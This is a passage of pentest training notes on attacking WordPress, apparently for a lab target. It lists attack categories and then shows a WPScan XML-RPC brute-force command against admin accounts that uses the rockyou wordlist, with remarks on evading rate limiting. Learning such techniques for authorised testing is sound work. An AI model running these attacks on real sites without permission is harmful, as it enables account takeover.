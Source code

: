 # ⚔️ WordPress Attacks & Exploitation

> **🎯 Objective:** Transform enumeration findings into actionable attacks, achieving code execution and system compromise through WordPress vulnerabilities and misconfigurations.

## Overview

After completing WordPress enumeration, we move to the exploitation phase. WordPress presents multiple attack vectors including credential-based attacks, theme manipulation, plugin vulnerabilities, and core exploits. This section covers systematic approaches to gaining initial access and escalating privileges.

**Attack Categories:**
- **🔐 Authentication Attacks** - Brute force and credential compromise
- **💻 Code Execution** - Theme editor manipulation and file upload bypasses
- **🔧 Automated Exploitation** - Metasploit and framework-based attacks
- **🎯 Plugin Vulnerabilities** - CVE exploitation and zero-day techniques

---

## Prerequisites

Before proceeding with attacks, ensure completion of:
1. **[WordPress Discovery & Enumeration](wordpress-discovery-enumeration.md)** - Target reconnaissance
2. **Valid user accounts identified** - Username enumeration results
3. **Plugin versions documented** - Vulnerability research completed
4. **WordPress version confirmed** - Core exploit mapping

---

## Authentication Attacks

### Login Brute Force with WPScan

#### XML-RPC Method (Preferred)
```bash
# Fast XML-RPC brute force attack
wpscan --password-attack xmlrpc \
  -t 20 \
  -U admin,john \
  -P /usr/share/wordlists/rockyou.txt \
  --url http://blog.inlanefreight.local

# XML-RPC advantages:
# - Faster than wp-login method
# - Multiple login attempts per request
# - Less likely to trigger rate limiting
```
